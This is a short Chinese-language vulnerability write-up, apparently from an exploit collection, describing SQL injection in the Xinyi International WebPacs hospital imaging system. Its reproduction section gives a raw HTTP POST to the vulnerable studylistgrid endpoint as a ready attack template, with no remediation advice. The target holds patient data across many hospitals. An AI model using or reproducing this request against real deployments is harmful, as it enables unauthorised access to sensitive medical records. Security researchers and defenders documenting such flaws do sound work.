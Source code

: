 # 心医国际WebPacs系统存在SQL注入漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际是中国专业的医疗云应用解决方案提供商，铺建并运营全国领先的智能医疗云平台，依托十年的数据积累和业务实践，持续创新智能医疗场景应用。业务服务覆盖诊疗、教学、科研、管理等多维度，助力政府、医院及产业合作伙伴，打造线上线下高效协同的智慧医疗健康服务体系，目前已建成覆盖全国31个省，联结2万余家医疗机构的智能医疗云平台，助力建设并服务青海、河南、陕西、山西、贵州、新疆、江西、广西、甘肃9大省级远程医疗平台，服务通达80%全国三甲级医院;成功建设并服务全国300余个省、市、县及专科医联体。心心医国际医技统计报表系统存在SQL注入漏洞，攻击者可通过该漏洞获取系统敏感信息  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际WebPacs系统</font>![1714377037227-b954ff03-9791-4ba5-8249-d4f3ced98a2a.png](./img/j3up_6YSZduk9VZa/1714377037227-b954ff03-9791-4ba5-8249-d4f3ced98a2a-754504.png)<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、漏洞复现</font>**

```plain
POST /WebPacs/webpacs/studylistgrid HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Connection: close
Content-Length: 154

type=normal&jianchahao=&department=&filmstate=&truename=&devicetypename=&studystatus=&patienttype=&huanzhehao=&devicename=&datelength=7&page=1&pageSize=10
```

![1714376981011-1284d41f-097b-4b1c-85ca-9db879bf108d.png](./img/j3up_6YSZduk9VZa/1714376981011-1284d41f-097b-4b1c-85ca-9db879bf108d-746259.png)





> 更新: 2024-06-17 09:27:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hg0bkutvaqknmatg>